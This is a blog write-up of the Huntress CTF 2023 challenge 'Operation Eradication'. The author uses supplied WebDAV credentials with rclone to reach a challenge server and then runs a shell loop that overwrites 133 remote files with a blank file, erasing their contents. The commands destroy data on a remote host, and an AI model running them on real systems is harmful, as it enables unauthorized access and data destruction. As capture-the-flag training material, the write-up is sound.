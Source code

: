 ```yaml
---
title: "Operation Eradication"
date: 2023-10-20T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Misc', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/thumb_drive)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/speakfriend) 

### Oh no! A ransomware operator encrypted an environment, and exfiltrated data that they will soon use for blackmail and extortion if they don't receive payment! They stole our data!

### Luckily, we found what looks like a configuration file, that seems to have credentials to the actor's storage server... but it doesn't seem to work. Can you get onto their server and delete all the data they stole!? 

Here we are given a txt file to download named 'operation_eradication'. This is a txt file with the following contents:
```txt
type = webdav
url = http://localhost/webdav
vendor = other
user = VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r
pass = HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```
We are also given a webserver to spin up. Visiting the page we see that there are 133 files which need to be deleted. 

![operation_eradication1](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/operation_eradication1.png?raw=true)

If we visit the '/webdav' directory of the site we are prompted for login credentials. However, the credentials provided in the file do not seem to work. We ended up using [rclone](https://rclone.org/webdav/) with the credentials, and were able to access the files:
```bash
rclone ls :webdav: --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5
```

This allowed us to see the various directories, and start trying to delete the files. There was a problem, however, in that we are only able to move and copy the files, we do not have the ability to actually delete them. 

So we need to find a way to delete the files without deleting the files. We can achieve this by creating a blank txt file, and copying it into the files, effectively erasing the data.
```bash
rclone copyto ./test.txt :webdav:HumanResources/EmployeeHandbook.pdf --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5 --size-only
```
Now we only need to repeat this process for the 132 remaining files. We can automate this process by saving the output of the ls command we ran into a .txt file, and removing the file size so that only the file paths remain. Finally, we simply use a for loop to copy our blank .txt file into all of the files like so:

```bash
for f in $(cat list.txt); do rclone copyto ./test.txt :webdav:$f --webdav-url=http://chal.ctf.games:32310/webdav/ --webdav-vendor=other --webdav-user=VAHycYhK2aw9TNFGSpMf1b_2ZNnZuANcI8-26awGLYkwRzJwP_buNsZ1eQwRkmjQmVzxMe5r --webdav-pass=HOUg3Z2KV2xlQpUfj6CYLLqCspvexpRXU9v8EGBFHq543ySEoZE9YSdH7t8je5rWfBIIMS-5; done
```
We can return to the home page and retrieve the flag!

![operation_eradication2](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/operation_eradication.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/thumb_drive)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/speakfriend) 
